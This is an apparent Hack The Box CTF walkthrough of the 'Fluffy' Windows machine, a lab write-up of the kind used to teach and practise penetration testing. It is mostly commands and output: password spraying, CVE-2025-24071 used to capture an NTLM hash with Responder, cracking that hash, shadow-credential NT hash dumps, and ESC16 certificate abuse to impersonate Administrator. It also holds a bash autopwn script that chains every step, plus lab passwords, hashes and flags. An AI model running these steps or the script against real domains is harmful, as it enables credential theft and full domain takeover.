

```bash
Target IP Address 10.10.11.69
Machine Information:
As is common in real life Windows pentests, you will start the Fluffy box 
with credentials for the following account: j.fleischman / 
J0elTHEM4n1990!
```

## Entry

Lets start with enum everything.

```bash
nxc smb 10.10.11.69
```

we can check DC and domain name with nxc 


and now we can create our `/etc/hosts` file.

```bash
sudo nxc smb 10.10.11.69 --generate-hosts-file /etc/hosts
```

and here

```bash
➜  fluffy cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali.kali.org   kali
[SNIP]
10.10.11.69     DC01.fluffy.htb DC01 fluffy.htb
```

We have creds lets enum shares and users with description.

### Enum

```bash
nxc smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' --shares
```


i will check it later first of all i wanna create username list and do password spray.

```bash
nxc smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' --users
```


and here we can create full username list

```bash
➜  fluffy cat nxcusers.txt | awk '{print $5}' > users.txt
➜  fluffy cat users.txt 
Administrator
Guest
krbtgt
ca_svc
ldap_svc
p.agila
winrm_svc
j.coffey
j.fleischman
```

Lets see if we can do password spray.

```bash
nxc smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' --pass-pol
```


### ✅ **We can safely perform a password spray.**

Because of:

- `Account Lockout Threshold: None`
- `Domain Password Complex: 0` (means no complexity requirement — weak passwords may work)

We have **no lockout risk**, and **passwords can be simple**, making this domain a **great candidate** for password spraying.

```bash
nxc smb 10.10.11.69 -u users.txt -p 'J0elTHEM4n1990!' --continue-on-success 
```


at least we are sure none user using his/her password as password.

## User

Lets go back Shares.

```bash
smbclient.py j.fleischman@DC01.fluffy.htb
```


This pdf file seems like interesting tho.

```bash
# get Upgrade_Notice.pdf
# exit
```

### CVE-2025-24071

Lets look at what `CVE-2025-24071` says.

https://github.com/ThemeHackers/CVE-2025-24071




Since `IT` share is **WRITEABLE** i think we can use it.

```bash
➜  fluffy git clone https://github.com/ThemeHackers/CVE-2025-24071
➜  fluffy cd CVE-2025-24071 
➜  CVE-2025-24071 git:(main) python3 exploit.py -i 10.10.14.36 -f important
```


and lets upload it

```bash
smbclient.py j.fleischman@DC01.fluffy.htb
sudo responder -I tun0
```


Lets crack it.

```bash
➜  fluffy john p.agila_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prometheusx-303  (p.agila)
```

lets verify it.

```bash
➜  fluffy nxc smb 10.10.11.69 -u p.agila -p 'prometheusx-303'                        
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\p.agila:prometheusx-303 
```

i think time to download bloodhound data.

```bash
nxc ldap DC01.fluffy.htb -u p.agila -p 'prometheusx-303' --bloodhound --dns-server 10.10.11.69 --collection all
```


Lets see what our user can do.


Lets get winrm_svc first and grab user.txt

### GenericAll

We have to add ourself ad Service Accont to use it priveilges with p.agila

```bash
bloodyAD --host DC01.fluffy.htb -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember "SERVICE ACCOUNTS" p.agila
```

### GenericWrite-(winrm_svc)

We can use `targetedkerberoast.py` here but it will useless sometimes cause maybe hashes are not crackable so lets use `certipy-ad` with `shadow` option we can dump **NT hash** directly. 

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
```


as u can see we cannot do it its because with our kali time and machine time does not match

```bash
The error “KRB_AP_ERR_SKEW (Clock skew too great)” occurs because 
Kerberos enforces strict time synchronization between the client and the
 domain controller. If there is a significant time difference (usually 
more than 5 minutes), authentication fails.
```

i always reccommend that command

```bash
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
[SNIP]
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```


Lets grab user.txt

```bash
➜  fluffy evil-winrm -i DC01.fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
ee2f58a7a8c75308457a163010315c8a
```

## Root

As we mentioned before `ca_svc` was potentially ADCS.


Lets grab his hash and check **ADSC**

### GenericWrite-(ca_svc)

```bash
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc

[SNIP]

[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```


### ADCS

```bash
nxc ldap DC01.fluffy.htb -u ca_svc -H ca0f4f9e9eb8a092addf53bb03fc98c8 -M adcs 
```


Lets check vulnerable things.

```bash
certipy-ad find -dc-ip 10.10.11.69 -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -ns 10.10.11.69 -vulnerable -stdout
```


its ESC16

### **ESC16: Security Extension Disabled on CA (Globally)**

we can find abuse here

[https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

Before start i wanna explain somethings

The idea of **ESC16** is to change the **UPN**, we can change for `p.agila` iit does not matter any on the group **Service Account**

So while change it we can use p.agila but for update we need `ca_svc` for whole abuse we can use `ca_svc` but i wanna show something which is we dont need nearly.

**Step 1: Add p.agila to SERVICE ACCOUNTS**

```bash
bloodyAD --host dc01.fluffy.htb -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb add groupMember "SERVICE ACCOUNTS" p.agila
[+] p.agila added to SERVICE ACCOUNTS
```

**Step 2: Update UserPrincipalName (UPN) of ca_svc**

Using the credentials of user **p.agil**a, we update **ca_svc** `userPrincipalName` to impersonate another user (`administrator`):

```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p'prometheusx-303' -target 'dc01.fluffy.htb'  -upn 'administrator' -user 'ca_svc' update
```


- his modifies the `userPrincipalName` attribute for `ca_svc` to `administrator`.
- Allows `ca_svc` to request certificates for the `administrator` identity.

**Step 3: Verify the Attribute Update**

```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -target 'dc01.fluffy.htb'  -user 'ca_svc' read 
```


Confirms `userPrincipalName` is now set to `administrator`.

**Step 4: Request Certificate as `administrator`**

```bash
certipy-ad req -dc-ip '10.10.11.69' -u 'ca_svc@fluffy.htb' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
```


**Step 5: Revert the UPN Change**

```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p'prometheusx-303' -target 'dc01.fluffy.htb' -upn 'ca_svc' -user 'ca_svc' update
```


Reverts `userPrincipalName` back to prevent suspicion or disruption.

**Step 5: Authenticate Using the Stolen Certificate**

```bash
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx 'administrator.pfx' -dc-ip 10.10.11.69 -domain fluffy.htb
```


Lets grab root.txt

```bash
*Evil-WinRM* PS C:\Users\Administrator> type C:\Users\Administrator\Desktop\root.txt
20fcd4e26fc0a469d3f763d0d0508a15
```

Nice!!!

## Creds

| username | password/hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
|  j.fleischman | J0elTHEM4n1990! | smb,ldap | Entry | IT share writable |
| p.agila | prometheusx-303 | smb,ldap | CVE-2025-24071 | GenericWrite |
| winrm_svc | 33bd09dcd697600edf6b3a7af4875767 | winrm | GenericWrite | winrm user |
| ca_svc | ca0f4f9e9eb8a092addf53bb03fc98c8 | LDAP | GenericWrite | ESC16 |
| Administrator | 8da83a3fa618b6e3a00e93f676c92a6e | everywhere | ESC16 | DA |

## Beyond Root

### Analyze CVE-2025-24071

we send our zip file but how its actually worked???

```bash
➜  CVE-2025-24071 git:(main) ✗ unzip exploit.zip 
Archive:  exploit.zip
  inflating: important.library-ms    
➜  CVE-2025-24071 git:(main) ✗ ls
exploit.py  exploit.zip  important.library-ms  LICENSE  README.md  requirements.txt
➜  CVE-2025-24071 git:(main) ✗ subl important.library-ms 
```


its just doing simple things.

### Autopwner

```bash
#!/bin/bash

# HTB Fluffy Autopwner Script
# Usage: ./autopwn-fluffy.sh

read -p "Enter your attacker IP (tun0): " ATTACKER_IP

TARGET_IP="10.10.11.69"
DOMAIN="fluffy.htb"
USER1="j.fleischman"
PASS1="J0elTHEM4n1990!"

clear
echo "1 - Target IP Address: $TARGET_IP"
echo "Machine Information:"
echo "As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: $USER1 / $PASS1"
echo ""
echo "2 - Run on Kali:"
echo "Command: nxc smb $TARGET_IP"
nxc smb $TARGET_IP

echo ""
echo "3 - Create host file"
echo "Command: sudo nxc smb $TARGET_IP --generate-hosts-file /etc/hosts"
sudo nxc smb $TARGET_IP --generate-hosts-file /etc/hosts

echo ""
echo "4 - Create full users list"
echo "Command: nxc smb $TARGET_IP -u $USER1 -p '$PASS1' --users"
nxc smb $TARGET_IP -u $USER1 -p "$PASS1" --users > users.txt

echo ""
echo "5 - cat users.txt"
cat users.txt

echo ""
echo "6 - Check shares"
echo "Command: nxc smb $TARGET_IP -u $USER1 -p '$PASS1' --shares"
nxc smb $TARGET_IP -u $USER1 -p "$PASS1" --shares

echo ""
echo "7 - CVE-2025-24071"
echo "Cloning exploit and uploading ZIP payload..."
git clone https://github.com/ThemeHackers/CVE-2025-24071
cd CVE-2025-24071 || exit
python3 exploit.py -i $ATTACKER_IP -f exploit
smbclient //fluffy.htb/it -U $USER1%$PASS1 -c "put exploit.zip exploit.zip; exit"
echo "Start Responder in another terminal: sudo responder -I tun0 -wd"
echo "Press any key to continue..."
read -n 1
cd ..

HASH="p.agila::FLUFFY:799c58ffa39954e8:4960CFA2918FFBCB0C3121425DBB5708:0101000000000000803DA411D6D3DB01EA3B8464151876880000000002000800550054003600330001001E00570049004E002D003700460058003700300035003500380041003100390004003400570049004E002D00370046005800370030003500350038004100310039002E0055005400360033002E004C004F00430041004C000300140055005400360033002E004C004F00430041004C000500140055005400360033002E004C004F00430041004C0007000800803DA411D6D3DB01060004000200000008003000300000000000000001000000002000008BED4636891F68464937EC54163379C8D94BF68D1CB8F9EB2128326EB76F5A540A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00330036000000000000000000"
echo "$HASH" > p.agila_hash

echo ""
echo "8 - Cracking hash with john"
john p.agila_hash --wordlist=/usr/share/wordlists/rockyou.txt
# Assume password is 'prometheusx-303'

PAGILA_PASS='prometheusx-303'
echo ""
echo "9 - GenericWrite for winrm_svc"
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username p.agila@$DOMAIN -password "$PAGILA_PASS" -account winrm_svc

echo "10 - Read user.txt"
evil-winrm -i DC01.fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767 -s "type C:\\Users\\winrm_svc\\Desktop\\user.txt"

echo ""
echo "11 - GenericWrite for ca_svc"
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username p.agila@$DOMAIN -password "$PAGILA_PASS" -account ca_svc

echo ""
echo "12 - ADCS"
nxc ldap DC01.fluffy.htb -u ca_svc -H ca0f4f9e9eb8a092addf53bb03fc98c8 -M adcs

echo ""
echo "13 - Check vulnerable templates"
certipy-ad find -dc-ip $TARGET_IP -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -ns $TARGET_IP -vulnerable -stdout

echo ""
echo "14 - ESC16 Exploitation"
bloodyAD --host dc01.fluffy.htb -u 'p.agila' -p "$PAGILA_PASS" -d $DOMAIN add groupMember "SERVICE ACCOUNTS" p.agila
echo "15 - ESC16 Exploitation"
certipy account -u 'p.agila@$DOMAIN' -p "$PAGILA_PASS" -target 'dc01.fluffy.htb' -upn 'administrator' -user 'ca_svc' update
echo "16 - ESC16 Exploitation"
certipy req -dc-ip $TARGET_IP -u 'ca_svc@$DOMAIN' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
echo "17 - ESC16 Exploitation"
certipy account -u 'p.agila@$DOMAIN' -p "$PAGILA_PASS" -target 'dc01.fluffy.htb' -upn 'ca_svc' -user 'ca_svc' update
echo "18 - ESC16 Exploitation"
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx 'administrator.pfx' -dc-ip $TARGET_IP -domain $DOMAIN

echo "[*] Done!"
```

